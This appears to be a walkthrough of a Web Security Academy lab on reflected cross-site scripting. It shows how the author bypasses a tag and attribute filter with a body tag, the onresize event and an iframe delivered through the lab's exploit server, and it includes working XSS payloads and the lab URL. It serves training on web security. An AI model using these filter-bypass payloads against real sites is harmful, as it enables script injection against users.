

--> i found that `custom tags` and `<body>` tags are accepted.


--> Now we know that we can use `body` tag so let's now brute force for events.

I used this payload :

```markup
<body id=x tabindex=1 onactivate=alert(1)></body>
```

And i found `onresize` event is accepted.



--> So i searched for payload with body tag and onresize event and then i found this payload

```markup
<body onresize="print()">
```

--> but unfortunately it didn't worked :(

==> And we have to goto `exploit-server` tab and then enter your payload and then click `deliver exploit to victim`

Then i tried this payload and it worked !

```html
<iframe
  src="https://ac721f141f257377c03016fb002900d7.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E"
  onload="this.style.width"
  ="100px"
>
</iframe>
```
